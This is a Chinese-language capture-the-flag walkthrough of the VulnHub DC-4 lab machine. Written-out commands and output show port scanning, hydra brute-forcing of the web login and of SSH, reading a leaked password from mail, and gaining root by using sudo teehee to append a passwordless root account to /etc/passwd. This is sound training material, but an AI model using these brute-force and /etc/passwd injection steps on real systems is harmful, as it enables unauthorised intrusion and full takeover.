# DC: 4

下载地址：https://download.vulnhub.com/dc/DC-4.zip

## 实战演练

发现靶场IP：`192.168.32.161`



扫描对外端口

```
┌──(root💀kali)-[/tmp]
└─# nmap  -sT -sV  -p1-65535 192.168.32.161                                                                                                                                                                                            
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-21 23:45 EDT
Nmap scan report for 192.168.32.161
Host is up (0.00021s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp open  http    nginx 1.15.10
MAC Address: 00:0C:29:87:7A:A8 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.43 seconds

```

浏览器访问80端口



扫描WEB目录





使用sqlmap，发现没有sqlmap注入漏洞



使用hydra爆破用户，找到密码`happy`。

```
┌──(root💀kali)-[/tmp]
└─# hydra -l admin -P top1000.txt  192.168.32.161 http-post-form '/login.php:username=^USER^&password=^PASS^:S=command' 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-06-22 00:15:04
[DATA] max 16 tasks per 1 server, overall 16 tasks, 999 login tries (l:1/p:999), ~63 tries per task
[DATA] attacking http-post-form://192.168.32.161:80/login.php:username=^USER^&password=^PASS^:S=command
[80][http-post-form] host: 192.168.32.161   login: admin   password: happy
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-06-22 00:15:21

```

登录成功



执行command，抓包



使用反弹shell



找到一个password文件


找到一个脚本

```
www-data@dc-4:/home/jim$ cat test.sh

#!/bin/bash
for i in {1..5}
do
 sleep 1
 echo "Learn bash they said."
 sleep 1
 echo "Bash is good they said."
done
 echo "But I'd rather bash my head against a brick wall."

```

`test.sh`有`suid`属性



访问mbox没有权限



将`old-passwords.bak`下载到kali机器，对`jim`用户进行SSH爆破，找到密码是`jibril04`

```
┌──(root💀kali)-[/tmp]
└─# hydra -l jim -P old-passwords.bak ssh://192.168.32.161                    
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-06-22 01:46:45
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 252 login tries (l:1/p:252), ~16 tries per task
[DATA] attacking ssh://192.168.32.161:22/
[STATUS] 177.00 tries/min, 177 tries in 00:01h, 76 to do in 00:01h, 16 active
[22][ssh] host: 192.168.32.161   login: jim   password: jibril04
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-06-22 01:48:17

```

查看`mbox`文件

```
jim@dc-4:~$ cat mbox 
From root@dc-4 Sat Apr 06 20:20:04 2019
Return-path: <root@dc-4>
Envelope-to: jim@dc-4
Delivery-date: Sat, 06 Apr 2019 20:20:04 +1000
Received: from root by dc-4 with local (Exim 4.89)
        (envelope-from <root@dc-4>)
        id 1hCiQe-0000gc-EC
        for jim@dc-4; Sat, 06 Apr 2019 20:20:04 +1000
To: jim@dc-4
Subject: Test
MIME-Version: 1.0
Content-Type: text/plain; charset="UTF-8"
Content-Transfer-Encoding: 8bit
Message-Id: <E1hCiQe-0000gc-EC@dc-4>
From: root <root@dc-4>
Date: Sat, 06 Apr 2019 20:20:04 +1000
Status: RO

This is a test.

```

根据提示，查看邮件信息，找到**charles**密码：`^xHhA&hvim0y`

```
jim@dc-4:~$ mail
Mail version 8.1.2 01/15/2001.  Type ? for help.
"/var/mail/jim": 1 message 1 unread
>U  1 charles@dc-4       Sat Apr 06 21:15   27/715   Holidays
& 1
Message 1:
From charles@dc-4 Sat Apr 06 21:15:46 2019
Envelope-to: jim@dc-4
Delivery-date: Sat, 06 Apr 2019 21:15:46 +1000
To: jim@dc-4
Subject: Holidays
MIME-Version: 1.0
Content-Type: text/plain; charset="UTF-8"
Content-Transfer-Encoding: 8bitc
From: Charles <charles@dc-4>
Date: Sat, 06 Apr 2019 21:15:45 +1000

Hi Jim,

I'm heading off on holidays at the end of today, so the boss asked me to give you my password just in case anything goes wrong.

Password is:  ^xHhA&hvim0y

See ya,
Charles

```

成功su用户，查看sudo列表

```
charles@dc-4:~$ sudo -l
Matching Defaults entries for charles on dc-4:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on dc-4:
    (root) NOPASSWD: /usr/bin/teehee

```

使用`teehee`添加一条root用户记录

```
charles@dc-4:~$ echo "r00t::0:0:::/bin/bash" | sudo teehee -a /etc/passwd
r00t::0:0:::/bin/bash

```

获取flag


